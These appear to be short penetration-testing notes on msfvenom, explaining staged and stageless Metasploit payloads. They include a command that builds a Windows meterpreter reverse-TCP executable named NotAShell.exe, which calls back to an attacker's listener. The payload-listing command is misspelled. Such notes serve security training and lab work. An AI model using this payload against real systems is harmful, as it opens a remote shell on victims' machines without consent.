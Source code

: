 ## msfvenom

### Staged and Stageless Payloads

Staged Payloads require a handler to catch the payload and send the appropriate reponse back to the server.

Stageless Payloads do not require a handler and any utility like netcat or socat can be used.

Metasploit has a naming convention for to know if it's a staged payload or stageless.
Three slashes in the name mean it's a staged payload. Example windows/x64/shell/reverse_tcp
Two slashes in the name mean it's a stageless payload. Example windows/x64/shell_reverse_tcp

List Payloads
```
msfveom -l payload
```
Creating the staged payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe -o NotAShell.exe    
```
